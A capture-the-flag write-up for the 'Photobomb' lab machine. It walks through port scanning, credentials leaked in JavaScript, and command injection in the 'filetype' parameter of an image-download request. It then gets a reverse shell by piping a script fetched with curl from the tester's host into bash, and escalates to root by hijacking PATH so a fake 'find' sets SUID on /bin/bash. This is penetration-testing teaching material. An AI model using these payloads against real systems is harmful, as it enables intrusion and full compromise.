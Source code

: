 # Photobomb

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.228.60                                    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 10:14 EDT
Warning: 10.129.228.60 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.228.60
Host is up (0.0056s latency).
Not shown: 51828 closed tcp ports (conn-refused), 13705 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have to add `photobomb.htb` to our `/etc/hosts` file to view port 80

### JS Credentials

The webpage looks like a corporate page:

<figure><img src="../../../.gitbook/assets/image (587).png" alt=""><figcaption></figcaption></figure>

When we click the link, it redirects us to some gallery.

<figure><img src="../../../.gitbook/assets/image (586).png" alt=""><figcaption></figcaption></figure>

Since the page mentions there are credentials, we can view the page source to find `photobomb.js` containing some credentials:

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

These credentials don't tell me anything new, so let's move on. At the bottom of the gallery, we can download images.&#x20;

<figure><img src="../../../.gitbook/assets/image (542).png" alt=""><figcaption></figcaption></figure>

Here's the request generated when we download a photo:

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1



photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

I didn't know how this was handling photos, but the long processing time between requests indicates to me that these photos might be dynamically generated instead of having all the possible combinations of photos stored on the website. This means that the parameters could be passed into a command, and then the image is returned.&#x20;

I tried some basic command injection, and found that the `filetype` parameter was vulnerable:

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1



photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;curl+10.10.14.13/rcecfm&dimensions=3000x2000
```

<figure><img src="../../../.gitbook/assets/image (580).png" alt=""><figcaption></figcaption></figure>

With this, we can use `curl 10.10.14.13/shell.sh|bash` to get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (574).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag from the home directory.

## Privilege Escalation

### Sudo Privileges

The user is able to run a script as `root`.

```
wizard@photobomb:/tmp$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

SETENV just means that the current environment is used instead and that we can specify the environment variables before running the command:

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/" %}

Here's the script:

```bash
wizard@photobomb:/tmp$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

The `find` binary does NOT have an absolute path, which means we can create a binary called `find` that executes a reverse shell and change our PATH variable to execute it first.

First, create a file called `find` with a malicious command:

```bash
$ cat find                   
#!/bin/bash

chmod +s /bin/bash
```

Afterwards, download this to the machine and make it executable. Then, just run this:

```bash
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

This would make `/bin/bash` an SUID binary.

<figure><img src="../../../.gitbook/assets/image (609).png" alt=""><figcaption></figcaption></figure>

Rooted!
